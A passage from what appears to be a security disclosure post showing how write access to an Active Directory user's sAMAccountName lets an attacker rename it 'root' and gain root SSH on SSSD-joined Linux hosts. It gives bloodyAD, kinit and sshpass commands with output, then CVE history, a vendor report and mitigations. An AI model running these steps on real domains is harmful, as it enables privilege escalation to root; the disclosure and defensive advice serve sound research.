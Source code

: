 Similarly, if we have the ability to write to the `sAMAccountName` of a user; we can perform the same attack.

```
~$ bloodyAD --host 'C-DC01.mercury.local' -u 'gatari-ad' -p 'P@ssw0rd' set object 'gatari-ad' 'sAMAccountName' -v 'root'
[+] gatari-ad's sAMAccountName has been updated

~$ echo 'P@ssw0rd' | kinit 'root' -E 
Password for root@MERCURY.LOCAL: 

~$ ssh 'root'@L-MGRT-APP001.mercury.local -K id   
uid=0(root) gid=0(root) groups=0(root)
```

In this case, we can also authenticate with password authentication, as the `sAMAccountName` is used to look up the user in Active Directory.

```
~$ sshpass -p 'P@ssw0rd' ssh 'root'@L-MGRT-APP001.mercury.local id             
uid=0(root) gid=0(root) groups=0(root)
```

## History of the Issue

An attack has been reported as [CVE-2020-25717](https://www.samba.org/samba/security/CVE-2020-25717.html) in Samba, which documents a similar vector; which has since been patched in [Samba 4.13.14](https://www.samba.org/samba/history/samba-4.13.14.html) and later.

> The easiest example to illustrate this is if an attacker creates an account named root (by renaming a MachineAccountQuota based machine account), and asks for a login without a Kerberos PAC. Between obtaining the ticket and presenting it to a server, the attacker renames the user account to a different name. Samba attempts to look up "DOMAIN\root", which fails (as this no longer exists) and then falls back to looking up user "root", which will map to the privileged UNIX uid of 0.

As for the issues discussed in this post, there are no known patches or mitigations available at the time of writing nor does it appear that any are forthcoming.

We have reported this issue to `sssd` in [#8021](https://github.com/SSSD/sssd/issues/8021), where it has been acknowledged but unlikely to be fixed in the near future; citing the `sssd_krb5_localauth_plugin` plugin as a mitigation for this issue. 

> to avoid this kind of issues SSSD provides a localauth plugin, please see man sssd_krb5_localauth_plugin about how to configure it.

## Mitigations

1. You can monitor for any changes to the `userPrincipalName` or `sAMAccountName` attributes in Active Directory, as well as ensuring that users are not able to write to these attributes.

2. If you are using `SSSD`, you can also configure the `sssd_krb5_localauth_plugin` plugin to prevent this issue. You should also disable `Kerberos SSO` on the Linux system if you do not require it.


